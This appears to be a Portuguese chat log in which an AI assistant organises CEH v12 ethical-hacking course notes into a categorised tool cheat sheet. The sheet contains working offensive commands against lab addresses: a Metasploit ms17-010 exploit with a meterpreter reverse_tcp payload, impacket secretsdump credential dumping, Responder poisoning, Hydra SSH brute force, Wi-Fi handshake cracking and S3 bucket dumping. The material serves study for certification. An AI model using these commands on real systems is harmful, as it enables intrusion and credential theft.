 Resumo CEH v12 Treimanemto 


IA Faça Resumo com o uso das ferramentas e as separe por categoria

Seu documento descreve um curso de treinamento (CEHV12) para hacking ético, incluindo:

Passos para fazer o download e armazenar o certificado após a conclusão.

Vários comandos e ferramentas usadas em pentest (por exemplo, Python, ferramentas de OSINT, configuração de conexão, métodos de varredura).

Técnicas para enumeração, exploração e escalada de privilégios em diferentes plataformas (por exemplo, Windows, Linux).

Seções sobre diferentes módulos, como Segurança de Aplicações Web, Injeção de SQL, Wireless, Mobile e Cloud.

Instruções para usar ferramentas como Metasploit, Nmap, Hydra, Aircrack-ng e outras.

O documento fornece instruções detalhadas de linha de comando e links para recursos.


quero separadamente uso das ferramentes de acordo com o texto
Claro! Aqui está a lista separada das ferramentas e seus usos, conforme mencionado no texto:

Ferramentas OSINT:
searx.space: Ferramenta de busca para informações de código aberto.

Preparação para Pentest:
Python:

Compilação para 32bits: apt-get install gcc-multilib g++-multilib

Invocar bash via Python: python -c 'import pty;pty.spawn("/bin/bash");'

Servidor web em Python: python3 -m http.server 80



Configuração de Teclado e Cheatsheets:
Configuração de teclado: setxkbmap -model abnt2 -layout br

Cheatsheet via linha de comando:

Alias: alias cht='f(){ curl -skL http://cheat.sh/"$@"; unset -f f; }; f'

Exemplos: cht nmap, cht steghide, cht find, cht tcpdump

Ferramentas de Clonagem e Uso:
ctfr:

Clonagem: git clone https://github.com/UnaPibaGeek/ctfr.git

Instalação: pip3 install -r requirements.txt

Uso: python3 ctfr.py -d pimpao.com.br

dnsdumpster e crt.sh: Ferramentas para levantamento de subdomínios.

## Ferramentas de Enumeração:
theHarvester:

Busca no LinkedIn: theHarvester -d eccouncil -l 200 -b linkedin

Netcraft:

Levantamento de sistema operacional: sitereport.netcraft.com

Shodan:

Mapeamento de dispositivos: shodan.io

CEWL:

Gerar dicionários: cewl -d 2 -m 5 www.certifiedhacker.com -u "Firefox 5.1" -w /tmp/dicionario.txt

## Ferramentas Recon-ng:
Recon-ng:

Criação de workspaces e módulos:

bash
recon-ng
workspaces create CEH
modules load recon/domains-hosts/brute_hosts
Scanning e Enumeração de Rede:
hping3:

Scanning e XMAS: hping3 -S -p 80 192.168.10.101

Nmap:

SNMP: nmap -sU -p 161 192.168.10.103 --script=snmp-win32-users.nse

Exploração e Privilege Escalation:
Metasploit:

## Uso do exploit ms17-010: Ilab cai 

bash
search ms17-010
use 2
set rhosts 10.10.10.7
set payload windows/x64/meterpreter/reverse_tcp
exploit
Impacket:

Uso do secretsdump: impacket-secretsdump.py -just-dc CEH/SERVER2016$@10.10.10.16

Ferramentas de Invasão de Sistema:
Responder:

## Captura por envenenamento: responder -I eth0 Ilab

## Hydra: Ilab

Quebra de senha: hydra -v -V -l eder -P dicionario.txt -t 4 ssh://192.168.10.113

Ferramentas de Wireless:
Aircrack-ng:

Quebra de senha de handshake: aircrack-ng -w dicionario.txt pacotescapturados.pcap

Crunch:

Gerar dicionário em memória: crunch 8 8 0123456789 | aircrack-ng -t -h -b macaddressaccesspoint pacotescapturados.cap -w -

Ferramentas de Mobile:
Phonesploit:

Conectar via ADB e capturar screenshots.

Ferramentas de Cloud:
AWS CLI:

Instalação e configuração:

bash
pip3 install awscli
aws configure
S3Scanner:

Procurar e fazer dump de buckets:

bash
cd /opt/S3Scanner
python3 s3scanner.py sites.txt -d
Essas são as ferramentas listadas e o uso conforme o conteúdo do seu documento. Precisa de mais alguma coisa?

Sem resumo




